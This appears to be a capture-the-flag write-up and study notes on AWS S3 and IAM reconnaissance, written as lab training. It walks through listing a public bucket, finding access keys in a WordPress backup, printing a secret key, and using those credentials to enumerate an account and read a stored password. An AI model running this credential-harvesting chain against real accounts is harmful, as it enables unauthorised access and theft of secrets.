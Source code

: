# Elf Leaks


## Amazon S3 (Simple Storage Service)
- Hosted object storage service
- Buckets are key-value stores, with object being a full pathname ofr a file and the value being the contents of the file
- Buckets use a global namespace
- Sometimes data gets mixed up, and data that shouldn't be public gets made public
- Discovering bucket names
    - S3 links will be in the form
        - `http://BUCKETNAME.s3.amazonaws.com/FILENAME.ext`
        - `http://s3.amazonaws.com/BUCKETNAME/FILENAME.ext`
- Listing the contents of Buckets
    - `aws s3 ls s3://irs-form-990/ --no-sign-request`
        - --no-sign-request allows you to request data without being an AWS customer
- Downloading Objects
    - `aws s3 cp s3://irs-form-990/201101319349101615_public.xml . --no-sign-request`
- Object permissions are different from bucket permissions
    - Bucket permissions allow you to list the objects in the bucket
    - Object permissions allow you to download the object

## AWS IAM
- All requests to AWS services must be signed, which require IAM access keys
- IAM access keys
    - Consist of an access key id and a secret access key
    - Access Key ID
        - Begin with letters 'AKIA' and are 20 characters long
        - Act as a username for the AWS API
    - Secret Access Key
        - 40 characters long
- When you find credentials to AWS, you can add them to your AWS profile in the CLI with `aws configure --profile PROFILENAME`
    - This adds entries to the .aws/config and .aws/credentials files
- Now you can execute a command using these credentials
    - `aws s3 ls --profile PROFILENAME`
    - **ProTip: Never store a set of access keys in the [default] profile. Doing so forces you always to specify a profile and never accidentally run a command against an account you don't intend to.**
- A few other common AWS reconnaissance techniques are:
    - Finding the Account ID belonging to an access key:
        - `aws sts get-access-key-info --access-key-id AKIAEXAMPLE`
    - Determining the Username the access key you're using belongs to
        - `aws sts get-caller-identity --profile PROFILENAME`
    - Listing all the EC2 instances running in an account
        - `aws ec2 describe-instances --output text --profile PROFILENAME`
    - Listing all the EC2 instances running in an account in a different region
        - `aws ec2 describe-instances --output text --region us-east-1 --profile PROFILENAME`
- AWS ARNs
    - Generate a unique identifier for all resources in the AWS cloud
    - `arn:aws:<service>:<region>:<account_id>:<resource_type>/<resource_name>`

## Exersize
1. Inspect the code of the image to get images.bestfestivalcompany.com
2. Use `aws s3 ls s3://images.bestfestivalcompany.com --no-sign-request` to get the files in the directory, then use `aws s3 cp s3://images.bestfestivalcompany.com/flag.txt . --no-sign-request` to download flag.txt. The message is `It's easy to get your elves data when you leave it so easy to find!`
```
root@ip-10-10-78-124:~# aws s3 ls s3://images.bestfestivalcompany.com --no-sign-request
2021-11-13 15:06:51       6148 .DS_Store
2021-11-13 12:43:03     108420 0vF39p3.png
2021-11-27 11:55:21     705191 AWSConsole.png
2021-11-13 12:43:03       5652 aws-logo.png
2021-11-13 15:06:51         68 flag.txt
2021-11-13 15:06:51    2349068 flyer.png
2021-11-13 12:43:03      92531 presents.jpg
2021-11-13 12:43:03       4680 tree.png
2021-11-23 23:52:22   16556739 wp-backup.zip
```
3. All the other files are images, so wp-backup.zip looks interesting
4. Unzip the file using `unzip wp-backup.zip`. Then use grep to search all the files in the directory for the characters "AKIA" `grep -r AKIA .`. The access key id is `AKIAQI52OJVCPZXFYAOI`. We find that the wp-config.php file contains all the passwords/keys. We also find that the secret access key is `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` and the region is `us-east-1`
```
root@ip-10-10-78-124:~/wp_backup# grep -r AKIA .
./wp-config.php:define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
```
5. We try to find the account id with `aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI`, but we get an error message `Unable to locate credentials. You can configure credentials by running "aws configure".`. We run `aws configure`, enter the access key id, the secret access key, and the region, and leave the default output format blank. We try `aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI` again and get
```
root@ip-10-10-78-124:~/wp_backup# aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI

{
    "Account": "019181489476"
}
```
6. Add the credentials to a new profile called "testing" with `aws configure --profile testing` and following the same process in the last step. Then use `aws sts get-caller-identity --profile testing` to get this output. Use the ARN format to see that the username is `ElfMcHR@bfc.com`
```
root@ip-10-10-78-124:~/wp_backup# aws sts get-caller-identity --profile testing
{
    "UserId": "AIDAQI52OJVCFHT3E73BO",
    "Account": "019181489476",
    "Arn": "arn:aws:iam::019181489476:user/ElfMcHR@bfc.com"
}
```
7. Use `aws ec2 describe-instances --output text --profile testing` to find that the name of the instance is `HR-Portal`
```
root@ip-10-10-78-124:~/wp_backup# aws ec2 describe-instances --output text --profile testing
RESERVATIONS	019181489476	043234062703	r-0e89ba65b28a7c699
INSTANCES	0	x86_64	HR-Po-Insta-1NAKAMW2PPVMT	False	True	xen	ami-0c2b8ca1dad447f8a	i-0c56041ac61cf5a95	t3a.micro	hr-key	2021-11-13T12:36:58.000Zip-172-31-68-81.ec2.internal	172.31.68.81		/dev/xvda	ebs	True	User initiated (2021-11-13 12:42:39 GMT)	subnet-00b1107c0c18c0722	hvm	vpc-0235b5a9591606b73
BLOCKDEVICEMAPPINGS	/dev/xvda
EBS	2021-11-13T12:36:59.000Z	True	attached	vol-0ac79339aac8b249d
CAPACITYRESERVATIONSPECIFICATION	open
CPUOPTIONS	1	2
HIBERNATIONOPTIONS	False
METADATAOPTIONS	enabled	1	optional	applied
MONITORING	disabled
NETWORKINTERFACES		interface	16:35:78:d8:60:d1	eni-027945da0ddb79e59	019181489476	ip-172-31-68-81.ec2.internal	172.31.68.81	True	in-use	subnet-00b1107c0c18c0722	vpc-0235b5a9591606b73
ATTACHMENT	2021-11-13T12:36:58.000Z	eni-attach-0d91e2137f6014220	True	0	attached
GROUPS	sg-0c6e7cd87c1c8d035	default
PRIVATEIPADDRESSES	True	ip-172-31-68-81.ec2.internal	172.31.68.81
PLACEMENT	us-east-1f		default
SECURITYGROUPS	sg-0c6e7cd87c1c8d035	default
STATE	80	stopped
STATEREASON	Client.UserInitiatedShutdown	Client.UserInitiatedShutdown: User initiated shutdown
TAGS	aws:cloudformation:stack-id	arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7
TAGS	aws:cloudformation:logical-id	Instance
TAGS	created_by	Elf McHR
TAGS	aws:cloudformation:stack-name	HR-Portal
TAGS	Name	HR-Portal
```

8. Use `aws secretsmanager help` to see a list of commands and [secretsmanager docs](https://docs.aws.amazon.com/secretsmanager/latest/userguide/tutorials_basic.html) for help. Use `aws secretsmanager list-secrets` to see all the secrets. Use `aws secretsmanager get-secret-value --secret-id HR-Password` and we see that the "SecretString" key has the value "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives.". In this [AWS page](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-regions-availability-zones.html#concepts-available-regions) we see that the regious you have access to depends on your account. We want to use the region closest to the north, so we can try eu-north-1. Now try `aws secretsmanager get-secret-value --secret-id HR-Password --region eu-north-1` and we get `Winter2021!`
```
root@ip-10-10-78-124:~/wp_backup# aws secretsmanager get-secret-value --secret-id HR-Password --region eu-north-1
{
    "ARN": "arn:aws:secretsmanager:eu-north-1:019181489476:secret:HR-Password-KIJEvK",
    "Name": "HR-Password",
    "VersionId": "f806c3cd-ea20-4a1a-948f-80927f3ad366",
    "SecretString": "Winter2021!",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1636809979.996
}
```
